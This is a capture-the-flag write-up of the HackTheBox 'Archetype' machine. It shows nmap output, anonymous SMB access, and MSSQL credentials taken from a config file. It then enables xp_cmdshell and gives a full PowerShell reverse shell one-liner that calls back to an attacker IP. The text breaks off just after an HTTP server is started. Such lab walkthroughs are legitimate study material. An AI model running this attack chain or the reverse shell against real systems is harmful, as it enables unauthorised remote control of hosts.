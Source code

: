 ```yaml
---
title: "Archetype - HackTheBox Writeup"
description: ""
author: "Kyb3r"
authorLink: "#"
lightgallery: false
date: 2021-08-17T12:00:01-05:00
lastmod: 2021-08-17T12:00:01-05:00
resources:
- name: "featured-image"
  src: "featured-image.png"
tags: [htb, writeup, hackthebox, ctf]
categories: [writeup, hackthebox, ctf]
draft: true
---
```

Starting with the writeups, today we will launch the HackTheBox Archetype machine that belongs to the Starting Point group here the writeup.


## Scan
We'll start with a simple port scan with nmap:
```shell
kyb3r@vizsla ~: nmap -sV -sC 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 14:34 CDT
Nmap scan report for 10.10.10.27
Host is up (0.10s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-08-17T19:53:47
|_Not valid after:  2051-08-17T19:53:47
|_ssl-date: 2021-08-17T19:59:07+00:00; +24m21s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h48m21s, deviation: 3h07m51s, median: 24m20s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-17T12:58:59-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-17T19:58:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

## SQL Server
We can notice that it contains a SQL Server which we are going to access with ```smbclient```.

We will list the smb folders with:
```shell
smbclient -L \\10.10.10.27 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We will access the "**backups**" folder with:
```shell
smbclient -N \\10.10.10.27/backups
Try "help" to get a list of possible commands.
smb: \>
```
![SMB](file.png)

The file prod.dtsConfig contains:
```text
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

### Mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
```
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```
kyb3r@vizsla:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
![mssqlclient](mssqlclient.png)

### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL

SQL>
```
![xp_cmdshell](xp_cmdshell.png)

## Reverse shell
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:
![Reverse Shell](reverse_shell.png)
Then we will start an http server with python:
```
python3 -m http.server
```